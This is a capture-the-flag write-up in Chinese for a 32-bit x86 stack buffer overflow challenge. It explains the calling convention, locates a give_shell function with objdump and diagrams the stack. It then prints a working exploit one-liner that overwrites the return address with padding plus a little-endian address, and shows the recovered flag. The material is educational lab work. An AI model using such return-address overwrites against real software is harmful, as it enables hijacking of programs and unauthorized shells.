

# Buffer Overflow 2
## Background Knowledge
x86的[calling convention](https://en.wikipedia.org/wiki/X86_calling_conventions)
 * Calling function：
  1. push參數到stack上(reverse order)
  2. push RET位址(目前%eip)
  3. jump到function位址
 * Called function：
  1. push old frame pointer(%ebp)
  2. 把frame pointer(%ebp)設成目前stack指到的位置(%esp)
  3. push local變數
 * Returning function：
  1. reset prev stack frame：%esp = %ebp, %ebp = (%ebp)
  2. jump回RET位址：%eip = 4(%esp)
 
 * x86是little-endian
## Solve
 * 使用gdb或objdump找到give_shell位址
```
$ objdump -d overflow2 | grep give_shell
080484ad <give_shell>:
```
 * 了解目前stack長相
  * 用objdump 看assembly code
```
$ objdump -d bufferoverflow2
...
<vuln>
push %ebp
...
pushl %0x8(%ebp) ; arument of strcpy
...
push %eax; argument of strcpy
call <strcpy@plt>
...
ret
...
<main>:
push %eax ; ret addr
call 80484e2 <vuln>
...
```
  * stack：
```
  <ret addr>
  <old %ebp>
  <strcpy arg>
  <strcpy arg>
  <buf ...
  16 bytes>
```
  * 取得flag
```
$ ./overflow2 $(python -c 'print "A"*16 + "A"*3*4 + "\xad\x84\x04\x08"')
$ ls
flag.txt    Makefile    overflow2   overflow2.c
$ cat flag.txt
controlling_%eip_feels_great
```
## Reference：
 * [駭客雜誌上的教學](http://phrack.org/issues/49/14.html#article)
